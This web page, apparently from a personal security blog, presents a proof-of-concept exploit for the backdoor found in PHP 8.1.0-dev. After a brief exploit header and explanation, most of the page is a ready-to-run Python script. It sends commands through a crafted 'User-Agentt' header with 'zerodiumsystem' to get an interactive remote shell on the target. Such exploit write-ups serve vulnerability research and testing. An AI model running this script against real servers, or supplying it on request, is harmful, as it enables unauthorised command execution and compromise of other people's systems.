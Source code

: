 _[<-- Home](https://flast101.github.io)_

# PHP 8.1.0-dev Backdoor Remote Command Execution


![docs/logo_php8.svg](docs/logo_php8.svg "docs/logo_php8.svg")



* * * 

## POC Script

Exploit Title: PHP 8.1.0-dev Backdoor Remote Command Execution    
Date: 23 may 2021   
Exploit Author: flast101   
Vendor Homepage: https://www.php.net/    
Software Link:     
- https://hub.docker.com/r/phpdaily/php    
- https://github.com/phpdaily/php    
Version: 8.1.0-dev    
Tested on: 8.1.0-dev    
CVE : N/A    
Previous vulnerability references:    
- https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a    
- https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md    


An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.

The following exploit uses the backdoor to provide a pseudo system shell on the host.


```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Be Curious, Learning is Life !

_[<-- Home](https://flast101.github.io)_




<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-173692234-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-173692234-1');
</script>


